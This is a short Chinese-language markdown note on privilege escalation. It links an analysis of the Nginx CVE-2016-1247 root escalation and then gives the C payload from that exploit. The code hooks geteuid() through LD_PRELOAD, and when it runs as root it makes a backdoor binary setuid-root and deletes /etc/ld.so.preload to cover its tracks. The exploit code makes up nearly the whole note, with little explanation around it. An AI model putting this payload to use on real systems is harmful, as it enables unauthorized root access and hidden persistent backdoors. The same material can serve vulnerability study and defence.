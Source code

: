 # 提权

参考文章

1. [Nginx权限提升漏洞(CVE-2016-1247) 分析](http://blog.knownsec.com/2016/11/nginx-exploit-deb-root-privesc-cve-2016-1247/)

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
#include <dlfcn.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

/*hook原geteuid()函数*/
uid_t geteuid(void) {
    //定义函数指针变量
    static uid_t  (*old_geteuid)();
    //返回原geteuid()函数的指针
    old_geteuid = dlsym(RTLD_NEXT, "geteuid");
    //在调用原geteuid()函数的同时执行想要的恶意操作
    if ( old_geteuid() == 0 ) {
        chown("$BACKDOORPATH", 0, 0);
        chmod("$BACKDOORPATH", 04777);
        unlink("/etc/ld.so.preload");
    }
    return old_geteuid();
}
```